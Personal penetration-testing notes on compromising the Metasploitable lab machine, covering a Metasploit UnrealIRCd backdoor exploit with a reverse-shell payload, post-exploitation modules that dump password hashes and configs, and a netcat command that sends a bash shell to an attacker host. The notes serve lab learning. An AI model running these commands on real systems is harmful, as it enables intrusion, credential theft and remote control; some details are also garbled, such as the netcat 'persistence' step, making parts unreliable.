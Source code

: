 ```yaml
---
title: pwning metasploitable
excerpt: >-
  This article will contain my personal notes on how to pwn metasploitable
categories:
  - Penetration-Testing
tags:
  - pentest
---
```


## Prerequisites

During the [Pluralsight course](https://jeanfrancoismaes.github.io/work-adventures/penetration-testing:/Intro-to-Kali/) we have scanned the metasploitable machine using openvas. Now we will use the scan results to pwn the machine.

### Abusing unrealircd (port 6667)

Openvas shows that the metasploitable machine is running an outdated version of unrealircd which has a vulnrability in it that can give you a shell in the machine. We will abuse this flaw now:

```
service postgresql start #start postgres for this exploit to work
msfconsole # start metasploit
workspace -a metasploitable #create a workspace called metasploitable
workspace #lists all the workspaces within metasploit
workspace metasploit #to get into metasploitable workspace
search ircd #search msf for ircd entries -> in this case will return exploit/unix/irc/unreal_ircd_3281_backdoor
info exploit/unix/irc/unreal_ircd_3281_backdoor # returns information about exploit
use exploit/unix/irc/unreal_ircd_3281_backdoor # tells metasploit we want to use this exploit
show options #shows parameters for this exploit
set RHOST <ip of metasploitable> #sets target IP
show payloads #shows all available payloads for this exploit
set PAYLOAD cmd/unix/reverse #sets payload
show options # shows parameters for this payloads
set LHOST<ip of attacker> #sets listener IP
exploit # starts the attack
```
And now we have a shell in the target machine, PWND!

`ctrl + z # background the open session (or close it )`

### Post Exploitation Activities

```
use post/linux/gather/hashdump #attempts to get passwords
set SESSION 1 # sets the session required for this exploit
exploit #executes
use post/linux/gather/checkvm #checks if machine is a VM
set SESSION 1 #sets the session requires for this exploit
exploit #executes
use post/linux/gather/enum_configs #get the config files and stores them in our system
set SESSION 1 #sets the session
exploit
use post/linux/gater/enum_network #enumerate the network
set SESSION 1 #sets the session  
exploit
```

### Persistence
We will use netcad. (but you can also use any rootkit/backdoor/...)

```
nc -lvp 4444 #setup a listener on your own machine for port 4444
nc -vn <attackerip> -e /bin/bash

```
